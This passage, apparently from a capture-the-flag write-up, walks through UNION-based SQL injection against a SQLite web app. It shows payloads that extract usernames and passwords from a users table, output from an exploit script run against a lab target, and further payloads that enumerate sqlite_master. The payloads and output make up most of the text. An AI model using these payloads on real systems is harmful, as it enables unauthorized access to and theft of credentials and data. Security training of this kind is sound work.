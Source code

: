 ```text
' AND 1 = 0 UNION SELECT NULL, username, NULL FROM users LIMIT 1 OFFSET 0; --
' AND 1 = 0 UNION SELECT NULL, password, NULL FROM users LIMIT 1 OFFSET 0; --
' AND 1 = 0 UNION SELECT NULL, username, NULL FROM users LIMIT 1 OFFSET 1; --
' AND 1 = 0 UNION SELECT NULL, password, NULL FROM users LIMIT 1 OFFSET 1; --
' AND 1 = 0 UNION SELECT NULL, username, NULL FROM users LIMIT 1 OFFSET 2; --
' AND 1 = 0 UNION SELECT NULL, password, NULL FROM users LIMIT 1 OFFSET 2; --
' AND 1 = 0 UNION SELECT NULL, username, NULL FROM users LIMIT 1 OFFSET 3; --
' AND 1 = 0 UNION SELECT NULL, password, NULL FROM users LIMIT 1 OFFSET 3; --
```

Let's try it...

```shell-session
$ python exploit.py http://143.110.169.131:31969 key.pem queries.sql
[ ?? ] INJECTING: ' AND 1 = 0 UNION SELECT NULL, username, NULL FROM users LIMIT 1 OFFSET 0; --
[ ++ ] RESULT: user
[ ?? ] INJECTING: ' AND 1 = 0 UNION SELECT NULL, password, NULL FROM users LIMIT 1 OFFSET 0; --
[ ++ ] RESULT: user
[ ?? ] INJECTING: ' AND 1 = 0 UNION SELECT NULL, username, NULL FROM users LIMIT 1 OFFSET 1; --
[ !! ] No result!
[ ?? ] INJECTING: ' AND 1 = 0 UNION SELECT NULL, password, NULL FROM users LIMIT 1 OFFSET 1; --
[ !! ] No result!
[ ?? ] INJECTING: ' AND 1 = 0 UNION SELECT NULL, username, NULL FROM users LIMIT 1 OFFSET 2; --
[ !! ] No result!
[ ?? ] INJECTING: ' AND 1 = 0 UNION SELECT NULL, password, NULL FROM users LIMIT 1 OFFSET 2; --
[ !! ] No result!
[ ?? ] INJECTING: ' AND 1 = 0 UNION SELECT NULL, username, NULL FROM users LIMIT 1 OFFSET 3; --
[ !! ] No result!
[ ?? ] INJECTING: ' AND 1 = 0 UNION SELECT NULL, password, NULL FROM users LIMIT 1 OFFSET 3; --
[ !! ] No result!
```

Okay, so the only user in the database has the username `user`, the user we
registered earlier. There's no hidden admin user, which is a bit disappointing.

Now that we have our exploit though, we can look around the database for other
tables that might contain secrets. In SQLite, details of the current database
can be found in the `sqlite_master` table. This table contains a number of
columns, but we're only interested in `type`, `name` and `sql`, which give
the type of the database entity, its name and the SQL query used to create it,
respectively. Revisiting our injection SQL above, we can exfiltrate the values
of these columns from `sqlite_master`:

```text
' AND 1 = 0 UNION SELECT NULL, type, NULL FROM sqlite_master LIMIT 1 OFFSET 0; --
' AND 1 = 0 UNION SELECT NULL, name, NULL FROM sqlite_master LIMIT 1 OFFSET 0; --
' AND 1 = 0 UNION SELECT NULL, sql , NULL FROM sqlite_master LIMIT 1 OFFSET 0; --
' AND 1 = 0 UNION SELECT NULL, type, NULL FROM sqlite_master LIMIT 1 OFFSET 1; --
' AND 1 = 0 UNION SELECT NULL, name, NULL FROM sqlite_master LIMIT 1 OFFSET 1; --
' AND 1 = 0 UNION SELECT NULL, sql , NULL FROM sqlite_master LIMIT 1 OFFSET 1; --
' AND 1 = 0 UNION SELECT NULL, type, NULL FROM sqlite_master LIMIT 1 OFFSET 2; --
' AND 1 = 0 UNION SELECT NULL, name, NULL FROM sqlite_master LIMIT 1 OFFSET 2; --
' AND 1 = 0 UNION SELECT NULL, sql , NULL FROM sqlite_master LIMIT 1 OFFSET 2; --
' AND 1 = 0 UNION SELECT NULL, type, NULL FROM sqlite_master LIMIT 1 OFFSET 3; --
' AND 1 = 0 UNION SELECT NULL, name, NULL FROM sqlite_master LIMIT 1 OFFSET 3; --
' AND 1 = 0 UNION SELECT NULL, sql , NULL FROM sqlite_master LIMIT 1 OFFSET 3; --
```
